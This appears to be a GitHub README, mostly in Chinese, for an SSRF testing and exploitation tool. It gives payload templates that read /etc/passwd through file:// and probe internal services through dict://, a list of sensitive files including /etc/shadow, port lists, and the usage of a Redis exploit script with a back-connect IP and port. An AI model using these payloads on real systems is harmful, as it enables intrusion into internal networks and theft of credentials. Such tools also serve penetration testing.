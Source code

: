 # SSRF_ex
SSRF漏洞测试、利用 SSRF vulnerability testing and utilization

SSRF
[+] 服务端请求伪造，当作跳板攻击内网服务
[+] 扫描内部网络、服务
[+] 访问本机敏感文件
[+] 向特定端口发送数据包、payload

```
.
├── exploit
│   └── redis.py
├── lib
│   ├── check_bypass.py
│   ├── check.py
│   ├── common.py
│   ├── config.py
│   ├── scan.py
│   ├── test
│   └── xmltest.xml
├── plugin
│   └── weblogic.py
├── result
│   ├── 192.168.1.107
│   │   ├── file_content.log
│   │   ├── host_port.log
│   │   └── test.log
│   └── 192.168.1.109
│       ├── file_content.log
│       ├── host_port.log
│       └── test.log
├── ssrfex.py


>> ssrfex.py -u http://192.168.1.107/ssrf.php -d url 
```
流程：
```
缓存、存活判断--SSRF漏洞路径判断--简单测试--简单规则绕过--子网、端口扫描
                                  |                       |
                                  |                       |
                              file协议利用           端口Exploit利用
```
### 目标路径判断是否为已知存在漏洞服务
例如：   
```
#ssrf_list = [{'server':'weblogic','path':'/uddiexplorer/SearchPublicRegistries.jsp/uddiexplorer/SearchPublicRegistries.jsp'},{'server':'Splash','path':'/render.html'},{'server':'Typecho','path':'/action/xmlrpc'}]

plugin/weblogic.py -u 192.168.1.1 -p 192.168.1
```

### 简单测试
```
payload_http_inner = "{url}?{query}=http://127.0.0.1".format(url=target,query=parameter)
payload_file = "{url}?{query}=file:///etc/passwd".format(url=target,query=parameter)
payload_dict = "{url}?{query}=dict://127.0.0.1:22".format(url=target,query=parameter)
```
测试协议，通过响应时间、服务指纹、页面返回内容、~静态文件hash值~判断

### file协议读取特定文件
```
['/etc/rsyslog.conf','/etc/syslog.conf','/etc/passwd','/etc/shadow','/etc/group','/etc/anacrontab','/etc/networks','/etc/hosts']
```

### 简单规则绕过
lib/testxml.xml规则和payload
利用url解析，对ip、host等16进制变换以及添加符号绕过

### 端口扫描
```
[22, 80, 445, 3306, 6379, 7001, 8080, 11211]
```
### 内网存活扫描
dict协议，根据服务内容的hash值~时间~判断

### 端口扫描攻击特定端口
```
6379 redis
exploit/redis.py -u [host and parameter] -i [redis_ip] -bip [bip] -bport [bport]
```

### 待更新
* plugin已知SSRF漏洞插件更新：如：Wordpress Discuz Typecho
* SSRF攻击exploit利用：Jobss Mysql struts tomact memcache php-fpm等
* 规则优化
* 302跳转、DNS 利用

### 参考
* [SSRF-Testing](https://github.com/cujanovic/SSRF-Testing/)
* [SSRF bible Cheatsheet](https://docs.google.com/document/d/1v1TkWZtrhzRLy0bYXBcdLUedXGb9njTNIJXa3u9akHM/edit#)
* [Build Your SSRF Exploit Framework](https://github.com/ring04h)
